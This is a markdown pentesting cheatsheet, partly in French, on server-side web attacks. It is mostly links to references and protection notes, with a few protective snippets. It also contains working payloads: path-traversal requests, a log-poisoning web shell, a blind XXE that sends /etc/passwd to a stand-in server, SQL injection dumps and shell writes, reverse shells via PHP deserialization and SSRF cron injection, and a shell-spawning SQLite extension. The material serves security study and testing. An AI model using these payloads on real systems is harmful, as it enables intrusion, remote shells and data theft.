

## Doc - Server

- [OWASP Cheatsheet Series - Top 10](https://cheatsheetseries.owasp.org/IndexTopTen.html)
- [Top 10 PortSwigger 2023](https://portswigger.net/polls/top-10-web-hacking-techniques-2023)
- https://github.com/xl7dev/BurpSuite
- https://github.com/paragonie/awesome-appsec
- https://book.hacktricks.xyz/todo/other-web-tricks
- https://cyber.gouv.fr/publications/securiser-un-site-web

### Cheatsheets

- https://github.com/GrrrDog/weird_proxies
- https://github.com/dustyfresh/PHP-vulnerability-audit-cheatsheet
- https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet
- https://portswigger.net/research/listen-to-the-whispers-web-timing-attacks-that-actually-work


## Outils

- [Burp](https://portswigger.net/burp)
- [CloudFlair](https://github.com/christophetd/CloudFlair)
- [Commix](https://github.com/commixproject/commix)
- [Curl (cheatsheet)](https://devhints.io/curl)
- [Jwt_tool](https://github.com/ticarpi/jwt_tool)
- [JWS](https://www.npmjs.com/package/jws)
- [LFISuite](https://github.com/D35m0nd142/LFISuite)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- [Gopherus](https://github.com/tarunkant/Gopherus)
- [Nuclei](https://red-security.fr/t/tutoriel-nuclei/92)
- [RSS Validator](https://validator.w3.org/feed/)
- [Tplmap](https://github.com/epinna/tplmap)
- [Wayback machine ](https://archive.org)
- https://archive.md/


## API & CRUD

- https://swagger.io/
- https://fastapi.tiangolo.com/tutorial/first-steps/ # Python, simple
- https://www.baeldung.com/rest-with-spring-series   # Java, using Spring
- https://cheatsheetseries.owasp.org/cheatsheets/REST_Security_Cheat_Sheet.html
- https://en.wikipedia.org/wiki/Create,_read,_update_and_delete
- https://cloud.mongodb.com

### GraphQL

 - https://www.next-decision.fr/wiki/differentes-categories-api-majeures-rest-soap-graphql
 - https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/
 - https://ivangoncharov.github.io/graphql-voyager/




## Broken Auth

- [Insecure Direct Object References](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References)
- [Password Reset Poisoning](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Account%20Takeover#password-reset-feature)
- [UUID - Sandwich Attack](https://github.com/Lupin-Holmes/sandwich)
- https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html

### Bruteforce - Proxychains

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Brute%20Force%20Rate%20Limit#network-ipv4

### JWT

- [Flask](./Python.md)
- https://jwt.io/
- https://superuser.com/questions/1419155/generating-jwt-rs256-signature-with-openssl
- https://github.com/ticarpi/jwt_tool/wiki


## Insecure code management

- https://httpd.apache.org/docs/current/howto/htaccess.html
- https://tomcat.apache.org/tomcat-9.0-doc/security-howto.html
- https://owasp.org/www-project-devsecops-guideline/latest/01a-Secrets-Management
- https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/05-Enumerate_Infrastructure_and_Application_Admin_Interfaces


## Command Injection

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection


## Path Traversal

- https://owasp.org/www-community/attacks/Path_Traversal
- https://www.php.net/manual/en/function.str-replace.php
- https://docs.python.org/3/library/stdtypes.html#str.strip
- https://daniel.haxx.se/blog/2020/07/29/curl-ootw-path-as-is/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Zip%20Slip
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal

```bash
curl http://example.org/files/upload/../../../../etc/passwd --path-as-is
curl -X POST "http://example.org/test.php?file=....//....//....//....//etc/passwd" -d "file=logs_existing.txt"
```

`Protection`:

- https://www.php.net/manual/fr/function.realpath.php

## File Inclusion

### Local & Remote File Inclusion (PHP)

- https://www.clever-age.com/owasp-local-remote-file-inclusion-lfi-rfi/
- https://humbertojunior.com.br/infosec/pentest/2021/02/16/lfi-parameters.html
- https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md
- https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/lfi2rce-via-php-filters.html

`Protection`: 

- https://www.php.net/manual/fr/function.realpath.php

```php
<?php
$file = basename(realpath($_GET["filename"]));
include("pages/$file");
?>
```

et `.htaccess`

`allow_url_include = Off` pour PHP<7.4.0

### Log Poisoning

- https://bughra.dev/posts/log-poison/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache
- https://web.archive.org/web/20120818120202/http://www.ghostsinthestack.org/article-26-bypasser-les-htaccess-avec-limit.html

```bash
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

### XXE

- https://github.com/BuffaloWill/oxml_xxe
- https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-docx-file
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-oob-with-dtd-and-php-filter

#### Blind XXE, Exflitration Out of Band

- `generate file with oxml_xxe`
- `a.dtd content:`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://SERVER/leak?x=%file;'>">
%eval;
%exfil;
```

### Insecure File Uploads (Docx XXE to RCE, Imagetragick)

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-inside-docx-file
- https://book.jorianwoltjer.com/web/server-side/imagemagick#profile-file-read-cve-2022-44268-less-than-7.1.0-50-oct-2022
- https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html


## SQLi

- https://phptherightway.com/#databases (`mysqli`|| `pdo` connectors)
- https://pentestmonkey.net/category/cheat-sheet/sql-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#ByPassingLoginScreens
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#SQLInjectionQuickChecks

### Blind/Error based/Stacked Queries/Union based/Time based SQLIs

- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet     # Database identification
- https://exploit-notes.hdks.org/exploit/web/sql-injection-cheat-sheet/
- https://exploit-notes.hdks.org/exploit/web/sql-injection-using-sqlmap/
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#StackingQueries
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#InsertPayloadSample


`Protection`:

- https://phpdelusions.net/mysqli_examples/prepared_select
- https://docs.python.org/3/library/sqlite3.html#sqlite3-placeholders
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- `mysqli::prepare`: https://websitebeaver.com/prepared-statements-in-php-mysqli-to-prevent-sql-injection
  - https://www.php.net/manual/en/mysqli.real-escape-string.php
  - https://www.php.net/manual/en/mysqli.prepare.php
  - https://dev.mysql.com/doc/c-api/8.0/en/c-api-prepared-statement-interface.html
- `PDO::prepare`: https://websitebeaver.com/php-pdo-prepared-statements-to-prevent-sql-injection
  - https://www.php.net/manual/en/pdo.prepared-statements.php
  - https://www.php.net/manual/en/pdo.setattribute.php#121309
  - https://stackoverflow.com/questions/10113562/pdo-mysql-use-pdoattr-emulate-prepares-or-not # turn off emulation mode for "real" prepared statements
  
#### Union based

- https://www.geeksforgeeks.org/pagination-in-sql/
- https://portswigger.net/web-security/sql-injection
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/

```sql
' UNION SELECT username from table LIMIT 1 OFFSET X # 0||1||2 etc.. 
```

```sql
' union select 0,0,0,0 #

' union select 0,0,table_name,0 from information_schema.tables #

' union select 0,0,column_name,0 from information_schema.columns where table_name='chall' #

' union select id, origine, message, 0 from chall #
```

#### Read / Write From File & RCE (SQLite, MySql)

- https://book.jorianwoltjer.com/web/server-side/sql-injection#rce-through-cli
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#BulkInsertFromFile
- https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html#privilege-escalation-via-library

```sql
# Read file
UNION SELECT LOAD_FILE ("etc/passwd")-- 

# Write a file
UNION SELECT "<? system($_REQUEST['cmd']); ?>" INTO OUTFILE "/tmp/shell.php"-- -# /tmp/shell.php?cmd=id
```

```c
#include <sqlite3ext.h>
SQLITE_EXTENSION_INIT1

#include <stdlib.h>
#include <unistd.h>

int sqlite3_extension_init(sqlite3 *db, char **pzErrMsg, const sqlite3_api_routines *pApi) {
  SQLITE_EXTENSION_INIT2(pApi);

  execve("/bin/sh", NULL, NULL);  // Spawn an interactive shell

  return SQLITE_OK;
}
```

```bash
gcc -s -g -fPIC -shared extension.c -o extension.so
#sqlite> select load_extension('./extension');
```

#### Blind

- https://web.archive.org/web/20120827032339/http://www.ghostsinthestack.org/article-11-blind-sql-injections.html
- https://wiki.zenk-security.com/doku.php?id=failles_web:blind_sql_injection
- https://blog.ajxchapman.com/posts/2017/01/14/blind-sql-injection.html
- https://docs.python-requests.org/en/latest/user/quickstart/#redirection-and-history
- https://minimalblue.com/data/papers/ESTEL12_fast_SQL_blind_injections_in_high_latency_networks.pdf
- https://systemweakness.com/blind-sql-injection-exploitation-with-binary-search-using-python-c21e02fb1fa4

```sql
admin' and length(password)>=10-- -
admin' and length(password)=10-- -

admin' and (select substr(password,1,1)='a')-- -
/*admin' and (select substring(password,1,1)='a')-- -*/

admin' and (select substr(password,1,3)='abc')-- -
```

### Fragmented

- https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/

### PDO prepared statements (Emulation MODE)

- https://slcyber.io/assetnote-security-research-center/a-novel-technique-for-sql-injection-in-pdos-prepared-statements/  # Test \'? and ?%00 escapes
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#pdo-prepared-statements

### Second Order


- https://portswigger.net/kb/issues/00100210_sql-injection-second-order
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet#SecondOrderSQLInjection
- https://book.hacktricks.wiki/en/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#second-order-sql-injection


### Bypass Filters

- https://websec.wordpress.com/tag/sql-filter-bypass/
- https://johnermac.github.io/notes/ewptx/sqlievasion/
- http://pims.tuxfamily.org/blog/2011/04/write-up-sha1-is-fun-plaidctf/


```sql 
'/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'xyz'-- d
' UNION SELECT 0x73272067726f757020627920322d2d2064-- d
%20 %09 %0a %0b %0c %0d %a0 /**/
mid(password,1,1) = 'a'     # substring alternative
```

### Others

#### NoSQLI

- https://www.mongodb.com/community/forums/t/unrecognized-pipeline-stage-name-search/111883
- https://www.dailysecurity.fr/nosql-injections-classique-blind/

```
https://www.vulnerable.com/search?id=23277%22}},{%22$lookup%22:{%22from%22:%22flag%22,%22as%22:%22str%22,%22foreignField%22:%22flag%22,%22localField%22:%22flag
```

#### LDAP injection

- https://wiki.zenk-security.com/doku.php?id=failles_web:ldap_injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection

#### XPATH injection

- https://wiki.zenk-security.com/doku.php?id=failles_web:xpath_injection
- https://book.hacktricks.wiki/en/pentesting-web/xpath-injection.html
- https://owasp.org/www-community/attacks/XPATH_Injection


## SSTI

- https://github.com/vladko312/Research_Successful_Errors/
- https://cheatsheet.hackmanit.de/template-injection-table/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/ASP.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Java.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/PHP.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Ruby.md


## Insecure Deserialization

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/

### Java - Serializable and deserializetoBytearray

- https://github.com/frohoff/ysoserial
- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
- https://www.synacktiv.com/publications/java-deserialization-tricks

### Node 

#### Serialize

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md

#### Prototype Pollution

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Prototype%20Pollution
- https://book.hacktricks.wiki/en/pentesting-web/deserialization/nodejs-proto-prototype-pollution/index.html

### PHP

#### Serialize

- https://github.com/ambionics/phpggc
- https://www.owasp.org/index.php/PHP_Object_Injection
- https://www.saotn.org/exploit-php-mail-get-remote-code-execution/

```php
<?php
class Token{
    public $encode_algo="anything";
    // exploiting toString() magic method
    public $decode_algo="shell_exec";
    // using php for a stable shell
    public $msg='php${IFS}-r${IFS}\'$s=fsockopen(<IP>,<PORT>);$p=proc_open("/bin/sh",[0=>$s,1=>$s,2=>$s],$x);\'';
}
echo urlencode(serialize([new Token()]));
``` 

#### File Upload - PHAR wrapper deserialization

- https://www.nc-lp.com/blog/disguise-phar-packages-as-images
- https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/phar-deserialization.html


### Python

#### Yaml

- https://book.hacktricks.wiki/en/pentesting-web/deserialization/python-yaml-deserialization.html

#### Pickle

- https://exploit-notes.hdks.org/exploit/web/framework/pickle-rce/
- https://docs.python.org/3/library/pickle.html#object.__reduce__
- https://stackoverflow.com/questions/23582489/python-pickle-protocol-choice
- https://stackoverflow.com/questions/7501947/understanding-pickling-in-python

```python
#protocol <= 2: python2, 2<protocol<=4: python3
token = base64.b64encode(pickle.dumps(Exploit(), protocol=0))
```

### Ruby

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

### .NET

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/DotNET.md


## SSRF

- https://www.dailysecurity.fr/server-side-request-forgery/
- https://www.vaadata.com/blog/fr/comprendre-la-vulnerabilite-web-server-side-request-forgery-1/
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

```bash
file://index.php
file:///etc/passwd

for i in {1..10000}; do curl -s -i http://site.org/index.php --data "url=http://localhost:$i" | grep 'Content-Length'| xargs echo "$i:"; done
dict://127.0.0.1:6379/set -.- "\n\n\n* * * * * bash -i >\x26 /dev/tcp/<ip>/<port> 0>\x261\n\n\n"
```

```bash
# fs : filter response size , matches != 2000
ffuf -c -w `fzf-wordlists` -X POST -u "http://$TARGET/" -d 'fetch=http://localhost:8080/FUZZ' 
ffuf -c -w `fzf-wordlists` -X POST -u "http://$TARGET/" -d 'fetch=http://localhost:8000/FUZZ'  -fs 2000
```

### Edge side include

- https://book.hacktricks.wiki/en/pentesting-web/server-side-inclusion-edge-side-inclusion-injection.html

